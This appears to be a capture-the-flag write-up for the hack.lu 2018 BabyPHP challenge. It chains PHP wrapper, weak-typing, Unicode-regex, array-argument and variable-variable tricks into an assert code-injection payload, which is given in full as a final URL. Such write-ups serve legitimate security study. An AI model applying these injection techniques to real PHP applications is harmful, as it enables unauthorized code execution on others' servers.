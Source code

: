 After access this site, we will see [source code](https://github.com/0ops/ctfs/blob/master/2018/hacklu-2018/web/BabyPHP/index.php) here, we can know this is a typical PHP trick challenge.

## Part One: PHP Wrapper

```php
@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}
```

At first, we need to find an input which satisfies the above conditions. In here, we need PHP wrapper.

PHP can read something like ``php://input`` / ``data://text/plain;xxx`` and some other things as file.

For example, ``file_get_contents("data://text/plain,Hell Challenge!")`` will return ``Hello Challenge!`` here, so we can solve this part by use ``data://text/plain,Hell Challenge!`` as payload.

## Part Two: Weak Type

```php
@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}
```

After that, we need to find a k1 which ``intval($k1) == $cc`` and ``$k1 !== $cc``, this is easy, when we post some thing, PHP will use it as string, so ``1337`` is enough here.

## Part Three: UTF8

```php
if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}
```

At first glance, we need to find a k2 which only have digit here, but is not number by PHP's ``is_numeric`` function. But this challenge use ``＄`` rather than ``$``, so ``000000000000000000000000000000000001337＄`` would be cool.

## Part Four: Variable Coverage

```php
if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}
```

In PHP, you can use ``$$`` to get a dynamic variable. For example:

```php
$b = true;
$a = 'b';
$$a = false;
var_dump($b); // false here
```

Therefore we can change some variable here. However, we need bypass this check ``substr($cc, $bb) === sha1($cc)`` first. We need another PHP trick here. When we post an array, ``substr`` / ``sha1`` will return ``NULL`` but not throw error here, so send ``cc[]=1`` will bypass this check.

## Part Five: Evil Assert

After satisfying the above conditions, we found that the code to print the flag was commented. But it doesn't matter, we have ``assert`` here! Assert will execute the string passed in, and we can control all variable with variable coverage part.

Finally, our payload is ``https://arcade.fluxfingers.net:1819/?bb=print_r%28%24flag%29%3B%2F%2F&key2=000000000000000000000000000000000001337%EF%BC%84&key1=1337&k1=2&cc%5B%5D=&msg=data%3A%2F%2Ftext%2Fplain%2CHello+Challenge%21``.

